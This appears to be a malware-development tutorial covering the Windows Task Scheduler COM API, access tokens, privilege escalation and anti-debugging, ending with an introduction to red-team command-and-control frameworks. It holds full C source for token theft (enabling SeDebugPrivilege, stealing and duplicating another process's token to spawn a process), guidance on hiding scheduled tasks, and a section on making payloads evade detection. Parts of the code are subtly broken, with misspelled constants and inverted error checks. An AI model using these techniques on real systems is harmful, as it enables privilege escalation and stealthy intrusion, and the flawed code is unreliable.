get_Settings: A fundamental method in the Task Scheduler API used to retrieve a pointer to theITaskSettingsCOM interface.HRESULT ITaskDefinition::get_Settings( [out] ITaskSettings::get_Settings **ppSettings );- Here is a breakdown of the
get_Settingsmethod's parameters:ppSettings: The address of a pointer variable that will receive theITaskSettingsinterface pointer. This is the output pointer used to configure the task's operational behavior.
- The
get_Settingsmethod returns anHRESULTvalue.S_OKindicates that theITaskSettingsobject was successfully created/retrieved and theppSettingspointer is valid. Must useRelease()when finished.
- Here is a breakdown of the
-
-
IPrincipal: A component of the Windows Task Scheduler API dedicated entirely to defining the security and identity under which a scheduled task will execute. It is primarily responsible for specifying the user account and privilege level for the task, which dictates its abilities and limitations on the system. It contains methods for managing user identity, privilege level, logon type, and process security.-
put_LogonType: A property setter in the Task Scheduler API used to define the executino requirement or the type of security token the task needs to run. It sets the condition under which the Task Scheduler service will allow the task's action to execute after its trigger has fired.HRESULT IPrincipal::put_LogonType( [in] TASK_LOGON_TYPE logonType );-
Here is a breakdown of the
put_LogonTypemethod's parameters:put_LogonType: A value from the enumeration that specifies the required security context for the task to run.
-
The
put_LogonTypemethod returns anHRESULTvalue.S_OKindicates that the logon type was successfully set on theIPrincipalobject.
-
-
put_RunLevel: A property setter used to set the security run level for the task's process token. It dictates whether the task will execute with standard user privileges or with elevated administratiev privileges.HRESULT IPrincipal::put_RunLevel( [in] TASK_RUNLEVEL_TYPE runLevel );- Here is a breakdown of the
put_RunLevelmethod's parameters:runLevel: A value from the enumeration that specifies the privilege level the task should run at.TASK_RUNLEVEL_LUA: Least-privilege User Account. The task will run with the standard, filtered token for a normal user.TASK_RUNLEVEL_HIGHEST: The task runs with the highest privileges available to the specified user.
- The
put_RunLevelmethod returns anHRESULTvalue.S_OKindicates the run level was successfully set on theIPrincipalobject.
- Here is a breakdown of the
-
-
ITriggerCollection: A vital component of the Windows Task Scheduler API, which acts as a container or array for all the specific triggers that define when a scheduled task will start. It is responsible for creating, deleting and configuring new trigger objects.Create: The primary method used to instantiate a new trigger object within the Task Scheduler API, which is then configured to define a specific start condition for a scheduled task.HRESULT ITriggerCollection::Create( [in] TASK_TRIGGER_TYPE2 type, [out] ITrigger **ppTrigger );- Here is a breakdown of the
Createmethod's parameters:type: A value from the enumeration that specifies the type of trigger to create.TASK_TRIGGER_LOGON: Triggers when a specified user logs on.TASK_TRIGGER_DAILY: Triggers at a specific time daily or every few days.TASK_TRIGGER_TIME: Triggers once at a specific date and time.TASK_TRIGGER_EVENT: Triggers when a specific event is written to the Windows Event Log.TASK_TRIGGER_BOOT: Triggers when the system starts up.
ppTrigger: The address of a pointer variable that receives theITriggerinterface pointer for the newly created trigger object.
- The
Createreturns anHRESULTvalue.S_OKindicates the trigger object was successfully created and theppTriggerpointer is valid.
- Here is a breakdown of the
-
ITrigger: The generic, base interface for all specific types of triggers within the Windows Task Scheduler API. It defines the common properties and methods shared by every condition that can initiate a scheduled task, such as the trigger type, id, enabled state, start and end boundary.-
QueryInterface: A foundational method inherited from theIUnknownbase interface, making it essential for all COM objets. It is used to safely navigate between different interfaces supported by a single COM object.HRESULT IUnknown::QueryInterface( [in] REFIID riid, [out] void **ppvObject );- Here is a breakdown of the
QueryInterfacemethod's parameters:riid: The Interface ID of the interface being requestedIID_ILogonTrigger: Configures properties unique to a logon event.IID_IDailyTrigger: Configures tasks that run every day or everyNdays, including the specific time of day for execution.IID_IEventTrigger: Configures tasks that start when a specific Windows Event Log event occurs.IID_IBootTrigger: Configures tasks that run when the system boots up.
ppvObject: The address of the pointer variable that will receive the pointer to the requested interface. Typically gets typecasted.
- The
QueryInterfacemethod returns anHRESULTvalue.S_OKindicates the object supports the interface andppvObjectis valid.E_NOINTERFACEindicates the object does not support the requested interface.
- Here is a breakdown of the
-
-
IActionCollection: A vital component of the Windows Task Scheduler APi, which acts as a container or array for all the specific actions that a scheduled task is configured to execute. It is primarily used to manage the various commands or programs that run when a task's trigger fires. A single task can have multiple actions.IActionCollectioncontains methods for creating actions and managing the collection's entries.Create: The primary method used to instantiate a new action object within the Task Scheduler API, which is then configured to define a specific command or program that a scheduled task will execute.HRESULT IActionCollection::Create( [in] TASK_ACTION_TYPE type; [out] IAction **ppAction );- Here is a breakdown of the
Createmethod's parameters:type: A value from the enumeration that specifies the type of action to create.TASK_ACTION_EXEC: Run a command line program or script.TASK_ACTION_COM_HANDLER: Execute a method no a registered COM handler object.
ppAction: A vital component of the Windows Task Scheduler API used to add a new action (i.e., "run a program", "send an email", "display a message") to a scheduled task.
- The
Createmethod returns anHRESULTvalue.S_OKindicates the action object was successfully created and theppActionpointer is valid.
- Here is a breakdown of the
-
IAction: The generic, base interface for all specific types of actions within the Windows Task Scheduler API. It defines the common properties and methods shared by every command or program that a scheduled task can execute, such as the Action Type and ID.- ** QueryInterface Interface IDs**:
IID_IExecAction: Configures an action that runs an executable or command line scriptIID_IComHandlerAction: Configures an action that executes a method on a registered COM object.
- ** QueryInterface Interface IDs**:
-
IExecAction: The component within the Windows Task Scheduler API used to define an action that runs a command line program, script, or executable file. It configures the exact command and environment for an executable action and defines methods for setting the executable path, arguments, and working directory.-
put_Path: A property setter in the Task Scheduler API used to define the full path to the executable or script file that a scheduled task will launch when its action is executed.HRESULT IExecAction::put_Path( [in] BSTR path );- Here is a breakdown of the method's parameters:
path: The full, absolute path to the executable file that the task should execute.
- The
put_Pathmethod returns anHRESULTvalue.S_OKindicates the path was successfully set on theIExecActionobject.
- Here is a breakdown of the method's parameters:
-
-
ITaskSettings: A component of the Windows Task Scheduler API used to define the operational behavior, constraints, and execution environment of a scheduled task. It is used to control how the Task Scheduler service manages and executes the task, rather than when or what. It allows for fine-tuning the task's execution policy. It defines methods for configuring execution limits and controls, power and role conditions, visibility and priority, and wake-up behavior.-
put_ExecutionTimeLimit: A property setter in the Task Scheduler API used to defie the maximum amount of time a scheduled task is allowed to run before the Task Scheduler service forcibly terminates the task's process.- The format (ISO 8601) starts with
P(for Period) followed by one or more time components:Y(Years) -> i.e.,P2Yis a period of 2 years.- M (Months)
- W (Weeks)
- D (Days)
- T (Time Separator required before hours/minutes/seconds)
- H (Hours)
- M (Minutes)
- S (Seconds)
- Passing an empty string
L""or0implies no time limit.
HRESULT ITaskSettings::put_ExecutionTimeLimit( [in] BSTR timeLimit );-
Here is a breakdown of the
put_ExecutionTimeLimitmethod's parameters:timeLimit: A BSTR containing the execution time limit in the ISO 8601 duration format (i.e.,P2M2WT2Hfor 2 months, 2 weeks, and 2 hours).
-
The
put_ExecutionTimeLimitmethod returns anHRESULTvalue.S_OKindicates the time limit was successfully set on theITaskSettingsobject.
- The format (ISO 8601) starts with
-
put_AllowDemandStart: A property setter in the Task Scheduler API used to control whether a scheduled task can be manually started outside of its defined triggers. SettingallowDemandStarttoFALSEis used in security-sensitive or high-availability environments to ensure that tasks only run under specific controlled conditions and are not accidentally or maliciously executed by unauthorized processes on demand.HRESULT ITaskSettings::put_AllowDemandStart( [in] VARIANT_BOOL allowDemandStart );- Here is a breakdown of the
put_AllowDemandStartmethod's parameters:allowDemandStart: A boolean value that specifies whether manual execution is allowed. The value should be set toVARIANT_TRUEorVARIANT_FALSE.
- The
put_AllowDemandStartmethod returns anHRESULTvalue.S_OKindicates the setting was successfully applied to theITaskSettingsobject.
- Here is a breakdown of the
-
put_StartWhenAvailable: A property setter in the Task Scheduler API that defines the task's behavior if its scheduled start time is missed. Used to instruct the Task Scheduler to run the task even if its initial trigger has passed, provided the trigger condition is no longer valid.HRESULT ITaskSettings::put_StartWhenAvailable( [in] VARIANT_BOOL startWhenAvailable );- Here is a breakdown of the
put_StartWhenAvailablemethod's parameters:startWhenAvailable: A boolean value that specifies whether the Task SCheduler should start the task when conditions allow, even if the scheduled time was missed. Should be set toVARIANT_TRUEorVARIANT_FALSE.
- The
put_StartWhenAvailablemethod returns anHRESULTvalue.S_OKindicates the setting was successfully applied to theITaskSettingsobject.
- Here is a breakdown of the
-
put_Enabled: A property setter in the Task Scheduler API used to activate or deactivate a scheduled task without deleting it. Useful for temporary suspension of a task, maintenance, or for setting up a task in a disabled state until all conditions are ready for execution.HRESULT ITaskSettings::put_Enabled( [in] VARIANT_BOOL enabled );-
Here is a breakdown of the
put_Enabledmethod's parameters:enabled: A boolean value that specifies the task's status. Set toVARIANT_TRUEto enable the task orVARIANT_FALSEto disable it.
-
The
put_Enabledmethod returns anHRESULTvalue.S_OKindicates the setting was successfully applied to theITaskSettingsobject. -
put_Hidden: A property setter in the Task Schedule API used to control the visibility of the scheduled task within the Windows Task Sheduler Management Console (GUI). Determines whether a task will be displayed to the user in the standard Task Scheduler interface (taskschd.msc).HRESULT ITaskSettings::put_Hidden( [in] VARIANT_BOOL hidden );- Here is a breakdown of the
put_Hiddenmethod's parameters:hidden: A boolean value that specifies the visibility of the task. Set toVARIANT_TRUEto hide the task orVARIANT_FALSEto make it visible.
- The
put_Hiddenmethod returns anHRESULTvalue.S_OKindicates the setting was successfully applied to theITaskSettingsobject.
- Here is a breakdown of the
-
-
ASEPs: Auto-Start Extensibility Points
Privilege Esaclation Techniques with Malware
At this point, you should be familiar with what a principal is, and how their access rights determine what actions they can take on a system, network, or domain. When a hacker initially compromises a target system, they may not have the level of privilege necessary to execute on their intent. Privilege escalation descibes the tactics and techniques used to gain higher rights on a system, network, or domain after the initial compromise.
Access Tokens
Access Tokens are a core element of the authentication process on Windows, created and managed by the Local Security Authority Subsystem Service (LSASS). They are responsible for identifying and describing the security context of a process or thread running on a system. Every time a user authenticates successfully, an access token is generated by winlogon.exe, by way of lsass.exe.
It includes the identity and privileges of the user account associated with the thread or process. Then, it is attached to the userinit.exe process, after which all child processes started by the user will inherit a copy of the access token and run under the privileges of the same access token.

Diagram of Access Token Generation After Authentication
Windows developers can engage with the access token that represents their current login session in the LSASS process using different Win32 APIs. For instance, DuplicateTokenEx can be used to copy pre-existing tokens:
-
DuplicateTokenEx: A Windows API function that creates a new access token that duplicates an existing one. It can be found inadvapi32.dll.- The
Exvariant allows you to:- Change the token type (i.e.,
ImpersonationToken->Primary Token), which is required to launch a new process via theCreateProcessAsUserfunction. - Define exactly what the new handle is allowed to do.
- Set impersonation levels.
- Change the token type (i.e.,
BOOL DuplicateTokenEx( [in] HANDLE hExistingToken, [in] DWORD dwDesiredAccess, [in, optional] LPSECURITY_ATTRIBUTES lpTokenAttributes, [in] SECURITY_IMPERSONATION_LEVEL ImpersonationLeve, [in] TOKEN_TYPE TokenType, [out] PHANDLE phNewToken )Here is a breakdown of the
DuplicateTokenExfunction's parameters:-
hExistingToken: A handle to the original token, which must have been opened withTOKEN_DUPLICATEacess. -
dwDesiredAccess: Determines what actions can be performed using the handle to the new token. The values you can pass fall into three categories:- Specific Rights: The most common values used when you need to perform specific operations on a token.
TOKEN_DUPLICATE(0x0002): Required to duplicate the token (often passed if you plan to clone this new token later).TOKEN_QUERY(0x0008): Required to query the token (i.e., getting the User SID or Group List)TOKEN_ASSIGN_PRIMARY(0x0001): Required to attach the new token to a process (used withCreateProcessAsUser).TOKEN_IMPERSONATE(0x0004): Required to attach the token to a thread for impersonation.TOKEN_ADJUST_PRIVILEGES(0x0020): Required to enable or disable privileges within the token.TOKEN_ADJUST_DEFAULT(0x0080): Required to change the default DACL or primary group of the token.
- Standard Rights: A set of security permissions that apply to almost all type of Executive Objects (i.e., processes, thread, registry keys, and synchronization objects), governing the management of the object itself rather than the data it contains.
DELETE(0x00010000): The right to delete the object.READ_CONTROL(0x00020000): The right to read the information in the object's security descriptor (the DACL), but not the SACL, which requires the specialACCESS_SYSTEM_SECURITYright.WRITE_DAC(0x00040000): The right to change who has access to the object by modifying the Discretionary Access Control List (DACL) in the security descriptor.WRITE_OWNER(0x00080000): The right to change the owner of the object in the security descriptor.
- Generic Rights: Common bundles of standalone access rights that are utilized as opposed to combining each right manually using the OR (
|) operator.TOKEN_ALL_ACCESS: Combines all possible specific and standard rights for a token, essentially creating a God-mode handle for that specific token.TOKEN_READ: CombinesSTANDARD_RIGHTS_READandTOKEN_QUERY.TOKEN_WRITE: CombinesSTANDARD_RIGHTS_WRITE,TOKEN_ADJUST_PRIVILEGES,TOKEN_ADJUST_GROUPS, andTOKEN_ADJUST_DEFAULT.
- Specific Rights: The most common values used when you need to perform specific operations on a token.
-
lpTokenAttributes: A pointer to aSECURITY_ATTRIBUTESstructure, that determines if the new handle can be inherited by child processes. UsuallyNULL.SECURITY_ATTRIBUTES: a structure used in Windows programming, primarily when creating a new object (a file, process, thread, or even an access token) to define its security descriptor and its inheritance properties.
Here is a breakdown of the structure's attributes:
typedef struct _SECURITY_ATTRIBUTES{ DWORD nLength; LPVOID lpSecurityDescriptor; BOOL bInheritHandle; }SECURITY_ATTRIBUTES, *PSECURITY_ATTRIBUTES, *LPSECURITY_ATTRIBUTES;Where:
nLength: The size of the structure in bytes. Should be equal tosizeof(SECURITY_ATTRIBUTES)before passing it to a function.lpSecurityDescriptor: A pointer to aSECURITY_DESCRIPTORstructure, which defines who owns the object and who has permission to use it.bInheritHandle: A boolean flag that determines if child processes can inherit the handle being created (TRUEfor yes).
-
ImpersonationLevel: A critical setting that determines how much authority a server or profess has when it acts on behalf of another user. There are four levels defined in theSECURITY_IMPERSONATION_LEVELenumeration:SecurityAnonymous: Server can identify that a connection is being made, but cannot see any identifying information about the client.SecurityIdentification: The server can retrieve your Security Identifier (SID) and privileges to perform its own access checks, however it cannot access local resources using your identity.SecurityImpersonation: The serverr can access local resources as if it were the user, however it is limited to the local machine.SecurityDelegate: Allows the server to impersonate the user's security context on both local and remote systems.
-
TokenType: Tells the kernel what the intended function of the access token is (whether it is attached to a Process or a Thread). It can have one of two possible values:TokenPrimary: An access token that is attached to a process, which defines the security context of the process including:- The User SID
- The Group SIDs
- Privileges (i.e.,
SeDebugPrivilege,SeShutdownPrivilege, etc.) - MIC Integrity Level
- The Default DACL
If you intend to create a new access token to create a new process (i.e., using
CreateProcessAsUser,CreateProcessWithTokenW, etc.) you must duplicate the existing token as aTokenPrimaryTokenImpersonation: An access token used by a thread to take actions on a system on behalf of a user. If your program must temporarily act as a different user, it must be aTokenImpersonationtype.
-
phNewToken: A pointer to the variable that receives the handle for the newly created clone token.
DuplicateTokenExreturnsTRUEon success,FALSEon failue (i.e.,ERROR_ACCESS_DENIED). - The
There are a lot of reasons to duplicate a token. For instance, we may need our program to impersonate a user in order to temporarily act on their behalf. After duplicating the token, we would use the ImpersonateLoggedOnUser function to switch the security context of the thread to the selected user. This reverts back after the RevertToSelf function is called, the thread exits, or the token is otherwise revoked:
-
ImpersonateLoggedOnUser: A Win32 API that causes the calling thread to impersonate the security context contained in a token handle.BOOL ImpersonateLoggedOnUser( [in] HANDLE hToken );Here is a breakdown of the
ImpersonateLoggedOnUserfunction's parameters:hToken: A handle to a primary or impersonation access token. The handle must haveTOKEN_QUERYandTOKEN_DUPLICATEaccess rights.
ImpersonateLoggedOnUserreturnsTRUEon success andFALSEupon failure.
A Locally Unique Identifier (LUID), is a 64-bit hexadecimal value used to identify locally unique entities on a system, such login sessions. Every access token must contain an Authentication ID (AuthID) parameter, which is used to identify the associated login session by utilizing the LUID. LUIDs can also be used to locally identify privileges on the system. The rights of a user account dictate what system actions can be performed by said account. The rights of a user encompass both the individual entitlements assigned to the user and the permissions granted to members of the group. These permissions are assigned by administrators and can be distringuished on the system by their assigned LUIDs. However, LUIDs are not exactly human-readable, so before you can perform any modifications to privileges, you must convert their human-readable names to their LUIDs using LookupPrivilegeValue:
BOOL LookupPrivilegeValueA(
[in, optional] LPCSTR lpSystemName,
[in] LPCSTR lpName,
[out] PLUID lpLuid
);
Here is a breakdown of the LookupPrivilegeValueA function's parameters:
lpSystemName: A pointer to a string that specifies the name of the system where the privilege is being looked up. PassingNULLlooks up the value on the local system.lpName: The null-terminated string of the privilege name (i.e.,SeDebugPrivilege).lpLuid: A pointer to theLUIDstructure that will receive the translated 64-bit value.
LookupPrivilegeValueA returns TRUE on success, FALSE on failue (i.e., ERROR_NO_SUCH_PRIVILEGE).
Access tokens and privileges play a vital role in certain privilege escalation techniques. Knowing how to access and query these values is fundamentally important to crafting the perfect attack.
Token Theft
Token theft is a technique where an attacker steals an existing access token from a running process and uses it to assume the identity and privileges of that user. It typically follows this sequence of steps:
- Gain Access: Attacker must first have administrative of
SeDebugPrivilegerights on the system to interact with other processes. - Open the Source: Attacker identifies a high-privileged process (i.e.,
winlogon.exe) and callsOpenProcess. - Extract the Token: Attacker calls
OpenProcessTokento get a handle to that process' primary token. - Duplicaet: Since they cannot use the original handle directly, they call
DuplicateTokenExto create a copy of it. - Impersonate or Launch: The attacker either:
- Creates an
Impersonationtoken to act on behalf of the victim within their current process - Creates a
Primarytoken to launch a new process on behalf of the victim, typically a new command shell with higher privileges.
Modern protection methods, such as Protected Process Light (PPL) and credential guard should be activated on a system to mitigate token theft.

Diagram of the Token Theft Process
For instance, in C, this can be implemented as follows:
#include <windows.h>
#include <iostream>
BOOL setPrivilege(LPCTSTR priv){
HANDLE token;
TOKEN_PRIVILEGES token_privs;
LUID luid;
BOOL resp = TRUE;
if (!LookupPrivilegeValue(NULL, priv, &luid)) resp = FALSE;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) resp = FALSE;
token_privs.PrivilegeCount = 1;
token_privs.Privileges[0].LUID = luid;
token_privs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLE;
if (!AdjustTokenPrivileges(token, FALSE, &token_privs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) resp = FALSE;
CloseHandle(token);
return resp;
}
HANDLE getToken (DWORD pid){
HANDLE cToken = NULL;
HANDLE ph = NULL;
if(pid == 0){
ph = GetCurrentProcess();
} else {
ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
}
if(!ph) cToken = (HANDLE)NULL;
BOOL resp = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
if(resp) cToken = (HANDLE)NULL;
return cToken;
}
BOOL createProcess(HANDLE token, LPCWSTR app){
HANDLE dToken = NULL;
STARTUPINFOW si;
PROCESS_INFORMATION pi;
BOOL resp = TRUE;
ZeroMemory(&si, sizeof(STARTUPINFOW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
si.cb = sizeof(STARTUPINFOW);
resp = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokennPrimary, &dToken);
resp = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFIE, app, NULL, 0, NULL, NULL, &si, &pi);
return resp;
}
int main (int argc, char** argv){
if (!setPrivilege(SE_DEBUG_NAME)) return -1;
DWORD pid = atoi(argv[1]);
HANDLE cToken = getToken(pid);
if(!createProcess(cToken, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
return 0;
}
Where:
-
OpenProcessToken: A vital Win32 API function used to retrieve the access token associated with a specific process. Located inadvapi32.dll.BOOL OpenProcessToken( [in] HANDLE ProcessHandle, [in] DWORD DesiredAccess, [out] PHANDLE TokenHandle );- Here is a breakdown of the
OpenProcessTokenfunction's parameters:ProcessHandle: A handle to the process whose access token you want to retrieve. It must have thePROCESS_QUERY_INFORMATIONaccess right.DesiredAccess: An access mask specifying what you intend to do with the token.- See
DuplicateTokenExfor value options.
- See
TokenHandle: A pointer to a handle that receives the address of the newly opened access token if the function succeeds.
- The
OpenProcessTokenfunction returnsTRUE upon success,FALSEupon failure (i.e.,ERROR_ACCESS_DENIEDif theProcessHandle` doesn't have enough permissions.)
- Here is a breakdown of the
-
TOKEN_PRIVILEGES: Used to describe a set of privileges for an access token. Essential when you want to query what privileges a process has or when you useAdjustTokenPrivilegesto enable/disable them.typedef struct _TOKEN_PRIVILEGES { DWORD PrivilegeCount; LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY]; } TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;-
Here is a breakdown of the
TOKEN_PRIVILEGESstructure's attributes:PrivilegeCount: Specifies the number of entries in thePrivilegesarray.Privileges[ANYSIZE_ARRAY]: An array of structures representing each individual privilege.
If you need more than one privilege, you must manually allocate enough memory for the extra
LUID_AND_ATTRIBTUTESelements:DWORD bufferSize = sizeof(TOKEN_PRIVILEGES)+(numPrivileges-1)*sizeof(LUID_AND_ATTRIBUTES); PTOKEN_PRIVILEGES pTokenPrivs = (PTOKEN_PRIVILEGES)malloc(bufferSize); pTokenPrivs.PrivilegeCount = numPrivileges;- Here is a breakdown of the
LUID_AND_ATTRIBUTESstructure's attributes:LUID: The Locally Unique Identifier which represents a privilege on the local system (i.e.,SeDebugPrivilege). This value is typically obtained by calling theLookupPrivilegeValuefunction.Attributes: A bitmask that defines the state of the privilege. The most common values include:SE_PRIVILEGE_ENABLED(0x00000002): Enables the privilege.SE_PRIVILEGE_ENABLED_BY_DEFAULT(0x00000001): The privilege is enabled by default (not relevant for our purposes here).SE_PRIVILEGE_REMOVED(0x00000004): The privilege is permanently removed from the token.SE_PRIVILEGE_USED_FOR_ACCESS(0x80000000): Privilege was used to gain access to an object.
-
-
AdjustTokenPrivileges: A Windows API function from the Win32 API, which enables or disables privileges in a specified access token, which represents the security context of a process or thread.BOOL AdjustTokenPrivileges( [in] HANDLE TokenHandle, [in] BOOL DisableAllPrivileges, [in] PTOKEN_PRIVILEGES NewState, [in] DWORD BufferLength, [in, optional] PTOKEN_PRIVILEGES PreviousState, [in, optional] PDWORD ReturnLength );- Here is a breakdown of the
AdjustTokenPrivilegesfunction's attributes:TokenHandle: The handle to the token you want to modify. It must have been opened withTOKEN_ADJUST_PRIVILEGESaccess.DisableAllPrivileges: Causes the function to disable all privileges and ignore theNewStateparameter.NewState: A pointer to aTOKEN_PRIVILEGESstructure, containing theLUID's and theSE_PRIVILEGE_ENABLEDattributes you want to set.BufferLength: The size, in bytes, or thePreviousStatebuffer. IfPreviousStateisNULL, this is0.PreviousState: A pointer to a buffer that receives the original state of any privileges the function modifies, allowing you to undo changes later.ReturnLength: A pointer to a variable that receives the required size of thePreviousStatebuffer.
AdjustTokenPrivilegescan returnTRUEeven if it failed to adjust all privileges you requirested. Fo instance, if you try to enableSedebugPrivilegebut you account doesn't actually possess that privilege in its token, the function returnsTRUEbecause the function call completed, but the action failed.
- Here is a breakdown of the
-
CreateProcessWithTokenW: A powerful Win32 API which creates a new process and its primary thread in the security context of a specific user token. It is frequently used by services or administrative tools (i.e.,runas) to launch a process as a different user. Asks theSecondary Logon Serviceto do the work for you. It's different fromCreateProcessAsUser, as the function does not require the caller to have theSeAssignePrimaryTokenPrivilege, which is very restricted. Unlike other functions, it only exists in aWvariant.CreateProcessWithTokenWcan be found inadvapi32.dll.BOOL CreateProcessWithTokenW( HANDLE hToken, DWORD dwLogonFlags, LPCWSTR lpApplicationName, LPWSTR lpCommandLine, DWORD dwCreationFlags, LPVOID lpEnvironment, LPCWSTR lpCurrentDirectory, LPSTARTUPINFOW lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation );- Here is a breakdown of the function's parameters:
hToken: A handle to the primary token for the new process. This is usually obtained viaLogonUserorDuplicateTokenEx.dwLogonFlags(0x00000001): Specifies the logon options regarding the user's profile for the new thread.LOGON_WITH_PROFILE: Loads the user profile (HKU, user environment) for the new process. Useful when the process needs the user reistry hive or profile resources.LOGON_NETCREDENTIALS_ONLY(0x00000002): Uses the token's credentials for outbound network authentication, but does not load the user profile. Local access uses the caller's account.None(0x00000000): The default setting. Does not load the profile. Standard token behavior.
lpApplicationName: The path to the executable. Can beNULLif the path is in thelpCommandLineargument.lpCommandLine: The command line string to execute.dwCreationFlags: Controls how the process is created (i.e.,CREATE_SUSPENDED,CREATE_NO_WINDOW)lpEnvironment: A pointer to an environment block. IfNULLthe new process uses an environment created from the user's token.lpCurrentDirectory: The working directory for the new process.lpStartupInfo: Structure defining window appearance and standard handles (stdin/stdout)lpProcessInformation: Structure that receives the new Process/Thread handles and IDs.
There are 3 critical requirements which must be met in order for
CreateProcessWithTokenWto work as intended:- The Secondary Logon Service: The service
seclogonmust be running, otherwise the function will fail withERROR_SERVICE_DISABLED. - Token Type: The
hTokenmust be a Priary Token, not an impersonation token - Permissions: The caller must have the identity of the user they are trying to launch, have the
SeDebugPrivilege, or be part of the Administrators group.
- By having the
SeDebugPrivilege, the system treats the request to open and duplicate another user's token as a legitimate debugging action.
- The
CreateProcessWithTokenWfunction returnsTRUEupon success,FALSEupon failure.
- Here is a breakdown of the function's parameters:
Path Interception
Path Interception is a vulnerability that occurs when an executable can be placed in a location which allows it to highjack the execution path of another, intended application. When the target program is executed with an elevated security context, this can result in privilege escalation. There are 3 variations of this vulnerability that we will review here: The PATH Environment Variable, Search Order Highjacking, and Unquoted Paths.
Path Environment Variable
Malware Detection Evasion Techniques
Modern Computer Systems come preloaded with a number of security mechanisms to combat the basic methods of exploitation, privilege escalation, and persistence we have reviewed so far. Without modification, these techniques would immediately be identified and mitigated before the attacker could perform any part of their operation. But although they likely won't work on their own, with some additional consideration these techniques can still be useful for exploiting weaknesses in security systems. In this section, we will review some methods for writing strong malware payloads that avoid detection and circumvent many of the obstacles that would otherwise prevent a payload from ever executing on a secure system.
Anti-Debugging Tricks
Preventing malware from being analyzed, or at the very least making analysis extremely difficult, ultimately gives it a quality of ambiguity, so that its functions and mechanisms cannot be determined. There are numerous debugging detection techniques, and here we will review a few as well as some methods for identifying new ones. Although a capable analyst will be capaable of mitigating any of them, introducing complexit at least makes their job a lot harder.
Detecting Debugger Presence
The first step in anti-debugging is determining whether or not the application is being run with a debugger attached. It is possible to ask the operating system using the IsDebuggerPresent function.
BOOL WINAPI IsDebuggerPresent(void);
-
The
IsDebuggerPresentfunction takes no parameters. It simply checks whether theBeingDebuggedflag is set in the Process Environment Block (PEB)/struct _PEB{ UCHAR InheritedAddressSpace; UCHAR ReadImageFileExecOptions; UCHAR BeingDebugged; [...trunc...] };-
The flag is specifically designed to detect user-mode debuggers. When a debugger is used to attach to an active process:
- The debugger calls the Win32 API
DebugActiveProcess DebugActiveProcesstriggers a call toNtDebugActiveProcessin the kernel.- The kernel involves an internal function, typically
DbgkpSetProcessDebugObject, which assigns a debug object to the process. - The kernel updates the
BeingDebuggedattribute in thePEB, setting it toTRUEso that any further calls toIsDebuggerPresentwill indicate that there is an active debugging session.
- The debugger calls the Win32 API
-
When a debugger is used to launch a new process:
- The debugger calls the
CreateProcessAPI (orCreateProcessAsUser\WithToken) with thedwCreationFlagsparameter set toDEBUG_PROCESSorDEBUG_ONLY_THIS_PROCESS. - Whichever API call is used eventually causes the Process Manager (PS Subsystem) to call
PspAllocateProcess, which is responsible for creating and initializing a new process object,_EPROCESSduring process creation and recognizes that the debug flag has been set. Successively, Windows Executive components (i.e.,The Object ManagerandThe Process Manager) become responsible for creating a Debug Object and setting theDebugPortattribute of the_EPROCESSobject to point to said Debug Object.
The Debug Object is a communication channel used by the debugger and the kernel to manage the creation and execution of debug events. When something important happens inside of a debugged process, such as process/thread creation, DLL loading/unloading, breakpoints, exceptions, etc., a debug event is created and stored in the
EventListof the_DEBUG_OBJECT, then thetypedef struct _DEBUG_OBJECT { KEVENT Event; // 0x00 (0x18 bytes) FAST_MUTEX Mutex; // 0x18 (0x28 bytes) LIST_ENTRY MessageList; // 0x38 Debug events queue LARGE_INTEGER CreateTime; // 0x48 LIST_ENTRY ProcessList; // 0x50 Attached processes union { ULONG Flags; // 0x60 ULONG RefCount; }; ULONG Padding; // 0x64 // Possibly more WER/telemetry fields after } DEBUG_OBJECT, *PDEBUG_OBJECT;Manually discerned using WinDbg. Look at Appendix X: Reversing the _DEBUG_OBJECT with WinDBG for more details.
- The debugger calls the
-
Introduction to C2 Frameworks and Operations Security
Established Red Teams typically have documented procedures, toolsets, and frameworks to run repeatable engagements. Command & Control Frameworks provide centralized orchestration. Operation leaders can assign roles, distribute tasks and resources, collect telemetry, and enforce OPSEC and governance controls across the team. In this section, we will review the general structure of C2 Frameworks and establish the foundational properties of operational security in red teaming engagements.
Command and Control Frameworks
A Command and Control (C2) Framework is a tool that allows red teams and threat actors to communicate with and control compromised systems. They are used to send commands to target systems, receive data from these systems, and manage the system's operations. They provide a stealthy communication channel between an infected host and the attackers server. C2 Frameworks use a client-server model, where the attacker controls a control server to manage multiple infected systems. Once malware infects a device, it connects back to the C2 server, awaiting commands. The attacker can remotely send instructions to the infected system and by using multiple C2 frameworks, attackers can improve their chances of avoiding detection, allowing them to evaluate the security defenses of a target more thoroughly. Ultimately, they are designed to give operators the ability to perform post-exploitation tasks, maintain persistence, and collaborate with other operators to achieve their goals. They typically support external post-exploitation hacking tools as well, and have the ability to hide these tools in the memory of the targeted system. This means that they can be customized for the specific needs of a team/engagement.
C2 Frameworks can generally be divided into 3 parts:
- C2 Server: The Command Center
- C2 Client: The Interface used by the Attacker
- C2 Agent: The Software Installed on the Compromised System to Facilitate Communication
C2 Servers
A C2 Server is the centralized hub where the attacker orchestrates their operation from. It is used for many purposes, from issuing commands for tasks like data theft, lateral movement, or deploying additional malware; to managing the connections to compromised systems. Attackers connect to it from their C2 Client, and ultimately it is responsible for facilitating the activities the attacker deems neccesary to complete their objective. C2 servers an be hosted in a few different ways:
- Dedicated Infrastructure: Self-hosted servers or virtual-private servers (VPS).
- Cloud Server: Platforms like AWS or Azure are often used because they can blend in with normal traffic.
- Compromised Servers: Sometimes attackers hijack someone else's infrastructure to avoid being traced.
Choose the option that meets the requirements of your engagement the best. At the end of the day, the C2 Server is important because it is a continuously running program that connects the various parts of the C2 Framework together. It plays an important role in monitoring the health of C2 Agents, providing resources and executing on commands for operators, and providing administrators with the tools needed to enforce policies and procedures. Good C2 Frameworks also keep logs of all activities, making it easy to audit engagements and write reports when they are complete.
